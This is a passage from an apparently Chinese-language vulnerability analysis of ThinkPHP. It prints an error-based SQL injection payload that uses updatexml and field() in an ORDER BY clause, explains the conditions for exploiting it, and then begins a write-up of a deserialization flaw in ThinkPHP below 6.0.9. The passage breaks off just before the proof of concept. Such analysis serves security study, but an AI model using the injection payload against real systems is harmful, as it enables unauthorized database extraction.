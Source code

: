ORDER BY field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0) 一直调试到后面可以看到 sql 语句:SELECT \* FROM user WHERE id IN (:where\_AND\_id\_in\_1,:where\_AND\_id\_in\_2) ORDER BY field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0) LIMIT 1

[![](assets/1709530629-099fb4024496a9a9718cb2034452a77e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110227-a1d4aa96-d9d3-1.png)

这里由于 field 函数，漏洞利用有两个关键点：

1.  field() 函数必须指定大于等于两个字段才可以正常运行，否则就会报错，当表中只有一个字段时，我们可以随意指定一个数字或字符串的参数
2.  当 field 中的参数不是字符串或数字时，指定的参数必须是正确的表字段，否则程序就会报错。这里由于程序会在第一个字段中加 限制 ,所以必须指定正确的字段名称。第二个字段没有限制，可以指定字符串或数字

## 简介

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php 发现一个反序列化漏洞。

### 范围：

thinkphp<6.0.9

### 环境

这里装 tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删 lock 文件改 comoser.json 重新 composer install 一遍

### 调试

很简单的链子。应该是最短的了 Poc:
